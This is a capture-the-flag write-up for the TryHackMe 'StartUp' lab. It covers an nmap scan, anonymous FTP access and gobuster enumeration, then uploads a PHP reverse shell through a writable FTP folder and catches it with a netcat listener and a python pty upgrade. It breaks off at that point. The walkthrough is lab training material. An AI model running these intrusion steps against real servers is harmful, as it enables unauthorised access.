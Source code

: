 <a href="https://tryhackme.com/room/startup"><center><h1>StartUp</a></center></h1>
<p>Greetings felow hacker!</p>
<p>Let's start with enumeration first!</p>
<pre><code>
$ nmap -sC -sV -oN nmap/init 10.10.104.34
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 14:27 EST
Nmap scan report for 10.10.104.34
Host is up (0.043s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.20.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
</pre></code>
<p>There are 3 ports open:</p>
<ul> 
<li> 21 (FTP)</li>
<li> 22 (SSH)</li>
<li> 80 (HTTP)</li>
</ul>
<p>Note that we can login into FTP as Anonymous and that directory ftp is writable (important later in the room)! </p>
<p>Let's login and explore a bit.</p>
<pre><code>
$ ftp 10.10.104.34              
Connected to 10.10.104.34.
220 (vsFTPd 3.0.3)
Name (10.10.104.34:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> get .test.log
local: .test.log remote: .test.log
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .test.log (5 bytes).
226 Transfer complete.
5 bytes received in 0.00 secs (6.9854 kB/s)
ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (1.9073 MB/s)
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.21 secs (1.1223 MB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.
</pre></code>
<p>It's a good practice to use <code>ls -la </code> in order to view hidden files and to see permissions.</p>
<pre><code>
$ cat .test.log 
test
</pre></code>
<pre><code>
$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
</pre></code>
<p>Nice, lets write down potencial username Maya.</p>
<p>Change <code>important.jpg</code> to <code>important.png</code> to view one of "these damn Among Us memes"!.</p>
<p>Let's check the website on port 80 too!</p>

<img src="pictures/StartUp_website.png">

<p>If we check source code we see something.</p>
<pre><code>
 &lt;h1&gt;No spice here!&lt;/h1&gt;
    &lt;div&gt;
	&lt;!--when are we gonna update this??--&gt;
</pre></code>
<p>There is nothing that would help use here so let's do a gobuster scan. Maybe it finds something.</p>
<pre><code>
$ gobuster dir -u http://10.10.104.34/ -w /opt/wordlists/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.104.34/
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/18 15:23:59 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/<b><---REDACTED---></b> (Status: 301)
/server-status (Status: 403)
===============================================================
2020/11/18 15:25:28 Finished
===============================================================
</pre></code>
<p>After moving to the newly discovered directory it clearly shows the ftp server!</p>



<img src="pictures/StartUp_dir.png">



<p>And if we remember from our nmap scan ftp folder is WRITABLE!! That means we can upload reverse shell and get into the machine!<p>
<p>I will be using <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">pentest monkey’s php reverse shell</a> and upload it to ftp.</p>
<pre><code>
$ ftp 10.10.104.34
Connected to 10.10.104.34.
220 (vsFTPd 3.0.3)
Name (10.10.104.34:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put reverse-shell.php
local: reverse-shell.php remote: reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5490 bytes sent in 0.00 secs (141.5046 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5490 Nov 18 20:55 reverse-shell.php
226 Directory send OK.
ftp> exit
221 Goodbye.
</pre></code>
<p>Next set up a netcat connection and execute php reverse shell on the website</p>
<pre><code>$ nc -lvnp &lt;port&gt; </code></pre>
<p>Lets get a fully interactive shell.</p>
<pre><code>
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
</pre></code>
